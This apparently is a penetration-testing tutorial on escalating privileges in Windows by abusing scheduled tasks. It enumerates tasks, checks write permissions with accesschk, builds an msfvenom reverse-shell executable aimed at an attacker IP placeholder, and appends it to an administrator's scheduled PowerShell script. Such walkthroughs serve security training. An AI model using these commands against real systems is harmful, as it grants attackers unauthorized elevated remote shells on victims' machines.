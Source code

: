 Windows provides a built-in utility called Task Scheduler, which is accessible through the Control Panel or by searching for "Task Scheduler" in the Start menu

The ```schtasks``` command-line utility can be used in Windows systems to list, edit or create scheduled tasks.

It can be used in the following manner to view all existing tasks:
```
schtasks /query /fo LIST /v 
```
The Powershell Get-ScheduledTask utility can also be used to enumerate scheduled tasks:
```
Get-ScheduledTask | ft TaskName,TaskPath,State
```
Unfortunately for us, Windows will only allow standard users to view scheduled tasks that belong to them, so the only way to know if a scheduled task is running scripts or commands with elevated privileges is to enumerate the files in the system.

There are two main ways to exploit scheduled tasks in Windows:

* Weak File Permissions used for the script being run by the scheduled tasks
* Creating or modifying scheduled tasks (only works in older versions of Windows)
  

**Exploiting Weak File Permissions**


In the example below, the “Backup” scheduled task is running the Backup.ps1 Powershell script every day at 10:00am.

![Screenshot from 2024-09-30 02-53-23](https://github.com/user-attachments/assets/076a33fe-53a0-485d-9d94-5c5fcba6c639)

We will user accesschk.exe binary to identify whether the current user can modify the ```Backup.ps1``` script.
```
.\accesschk.exe /accepteula -quvw stef C:\Users\Administrator\Desktop\Backup.ps1
```
If we got `FILE_ALL_ACCESS`, we will on the right way.
![Screenshot from 2024-09-30 02-56-44](https://github.com/user-attachments/assets/8d41ba46-ecba-448d-bd20-1b98469ee254)

2. A reverse shell should be crafted:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<our ip> LPORT=1234 -f exe > shell.exe
```
3. Transferring the shell.exe file to the Windows victim machine using the Python web server
4. The next step is to set up a Netcat listener:

5.Since our user has access to edit the ```Backup.ps1``` script, the easiest way to exploit this is to simply add an extra line to it which will execute our shell:
```
echo path_to_shell >> path_to_scheduled_script
#EX
echo "C:\Users\lol\shell.exe" >> "C:\Users\Administrator\Desktop\Backup.ps1"
```
Once the scheduled task has run, the Powershell script was executed, connecting to the listener and therefore granting a remote shell.










